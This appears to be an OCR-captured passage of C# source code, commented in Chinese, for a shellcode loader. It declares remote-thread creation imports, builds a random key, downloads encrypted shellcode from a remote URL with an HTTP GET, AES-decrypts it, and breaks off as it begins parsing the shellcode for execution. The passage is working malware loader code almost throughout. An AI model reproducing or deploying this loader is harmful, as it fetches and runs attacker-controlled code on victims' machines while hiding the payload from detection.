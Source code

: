 ```c#
            UInt32 lpThreadAttributes, //指向线程的安全描述结构体的指针，一般设置为NULL，表示默认安全级别
            UInt32 dwStackSize,//线程堆栈大小，一般设置为0，表示使用默认大小
            UInt32 lpStartAddress,//线程函数的地址
            IntPtr lpParameter,//线程参数
            UInt32 dwCreationFlags,//线程的创建方式，CREATE_SUSPENDED 线程以挂起方式创建
            ref UInt32 lpThreadId); //输出参数，记录创建的远程线程的ID
        

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
          IntPtr hHandle,
          UInt32 dwMilliseconds
        );

        public static string key;



        //随机生成32位密钥
        public static void NewKey()
        {
            key = Guid.NewGuid().ToString().Replace("-", "").Substring(0, 32);
        }
        //请求获取shellcode内容
        public static string GetShell(string url)
        {
            url = url + key;
            HttpWebRequest reqContent = (HttpWebRequest)WebRequest.Create(url);//这个是请求的登录接口
            reqContent.Method = "GET";
            reqContent.AllowAutoRedirect = true;//服务端重定向。一般设置false
            reqContent.Timeout = 5000;
            HttpWebResponse respContent = (HttpWebResponse)reqContent.GetResponse();
            StreamReader sr = new StreamReader(respContent.GetResponseStream());
            return sr.ReadToEnd();

        }

        //AES解密
        public static string AesDecrypt(string message, string key)
        {
            using (AesCryptoServiceProvider aesProvider = new AesCryptoServiceProvider())
            {
                aesProvider.Key = Encoding.UTF8.GetBytes(key);
                aesProvider.Mode = CipherMode.ECB;
                aesProvider.Padding = PaddingMode.None;
                using (ICryptoTransform cryptoTransform = aesProvider.CreateDecryptor())
                {
                    byte[] inputBuffers = Convert.FromBase64String(message);
                    byte[] results = cryptoTransform.TransformFinalBlock(inputBuffers, 0, inputBuffers.Length);
                    aesProvider.Clear();
                    string rs = Encoding.UTF8.GetString(results);
                    rs = rs.Replace("", null);
                    rs = rs.Replace("", null);
                    rs = rs.Replace(" ", null);
                    return rs;
                }
            }
        }
       
    public static void runShell(string shellcodes)
        {
            string[] strings = shellcodes.Split(',');
```